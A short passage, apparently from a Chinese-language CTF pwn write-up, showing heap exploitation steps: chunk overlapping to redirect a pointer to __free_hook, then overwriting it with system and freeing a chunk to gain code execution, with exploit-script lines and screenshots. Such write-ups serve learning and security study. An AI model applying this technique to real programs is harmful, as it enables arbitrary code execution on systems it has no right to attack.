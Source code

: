 ```plain
add(0x70,p64(0)*8+p64(0x10)+p64(free_hook))
```

利用 chunk Overlapping 然后将修改地址的索引改成 free\_hook，这样就可以直接改 hook 了

[![](assets/1701606615-3536d63324cdf3e36e3f7f8548bd046a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213355-9fb89d62-83bb-1.png)

```plain
edit(4,p64(system))
delete(0)
```

直接将 free\_hook 改成 system，然后 free(0) 就可以

[![](assets/1701606615-f2dc06e9d2ebb213f5c2b2307795b06f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213419-adb566de-83bb-1.png)
